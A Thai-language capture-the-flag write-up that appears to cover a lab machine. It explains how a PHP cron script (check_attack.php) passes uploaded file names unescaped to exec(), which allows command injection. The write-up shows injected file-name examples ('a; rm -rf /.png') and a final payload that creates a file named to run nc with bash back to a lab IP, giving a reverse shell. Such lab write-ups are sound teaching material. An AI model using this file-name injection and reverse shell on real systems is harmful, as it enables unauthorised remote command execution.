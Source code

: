 - วนลูปเช็กไฟล์ทีละชื่อ
- ถ้าเป็น index.html จะข้าม
    
```php
    list($name, $ext) = getnameCheck($value);
    $check = check_ip($name, $value);
```

- getnameCheck() แยกชื่อกับนามสกุลไฟล์ เช่น 127.0.0.1.png → 127.0.0.1, png 
- check_ip() เช็กว่า $name เป็น **IP address** ถูกต้องไหม (ใช้ filter_var())

```php
    if (!($check[0])) {
```

- ถ้าไม่ใช่ IP (เช่น abc.png หรือ a; rm -rf /.png) จะถือว่าเป็น “การโจมตี”
    
```php
        echo "attack!\n";
        file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
        exec("rm -f $logpath");
        exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
        mail($to, $msg, $msg, $headers, "-F$value");
```

- คำสั่ง exec("nohup /bin/rm -f $path$value ...") เอา **$value (ชื่อไฟล์)** มาต่อคำสั่งระบบโดยตรง
    → ถ้าชื่อไฟล์มีคำสั่งแฝง เช่น a; whoami; b.png จะหลุด **Command Injection**
- ไม่มี escapeshellarg() หรือการตรวจสอบ input ใด ๆ
- ผลคือเราสามารถใช้ “**ชื่อไฟล์**” ที่มีคำสั่งแฝง เพื่อรันคำสั่งในเซิร์ฟเวอร์ได้


**วิเคราะห์ Cronjob**    
    - ไฟล์ crontab.guly ตั้งให้รันทุก 3 นาที
```bash
php /home/guly/check_attack.php
```
  
**วิเคราะห์สคริปต์ check_attack.php**
    - อ่านไฟล์ทั้งหมดใน /var/www/html/uploads/
    - ถ้าไฟล์ไหน **ไม่ใช่** IP address (เช็กด้วย filter_var) จะสั่ง:
```php
exec("nohup /bin/rm -f /var/www/html/uploads/<ชื่อไฟล์> …");
```

ปัญหา: คำสั่ง exec() นำ **ชื่อไฟล์** (ตัวแปร $value) มาต่อท้ายโดย **ไม่ escape** →  **Command Injection** ได้ทันที

**ช่องทางโจมตี**  ดำเนินการอัปโหลดไฟล์ชื่อแปลก ๆ เช่น
```bash
a; <payload>; b
```

PHP ใช้ exec() กับชื่อไฟล์จากโฟลเดอร์ uploads ที่ผู้ใช้ควบคุมได้ → ใส่ payload ในชื่อไฟล์แล้วรอ cron รัน = ได้ reverse shell เป็น guly ได้

เราสามารถทำการสร้างไฟล์ภายใต้ uploads/ ได้โดยฝัง shell ภายใต้โฟลเดอร์ดังกล่าว  

```bash
touch ';nc -c bash 10.10.14.6 444'
```

